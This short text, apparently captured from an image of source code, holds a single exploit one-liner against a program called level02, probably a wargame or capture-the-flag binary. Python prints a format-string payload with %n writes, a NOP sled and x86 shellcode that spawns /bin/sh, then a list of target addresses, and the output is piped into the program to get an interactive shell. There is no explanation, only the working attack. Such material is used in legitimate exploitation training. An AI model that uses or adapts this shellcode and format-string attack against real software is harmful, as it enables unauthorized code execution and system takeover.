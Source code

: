 (python -c 'print("%8$hn"+"\x90"*10 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "%32712d"+"%9$hn"+"%25894d"+"%10$hn"+"%6874d"+"%11$hn")' ; python -c 'print("\xe6\x11\x60\x00\x00\x00\x00\x00"+"\xe4\x11\x60\x00\x00\x00\x00\x00"+"\xe0\x11\x60\x00\x00\x00\x00\x00\x00"+"\xe2\x11\x60\x00\x00\x00\x00\x00\x00")' ; cat) | ./level02
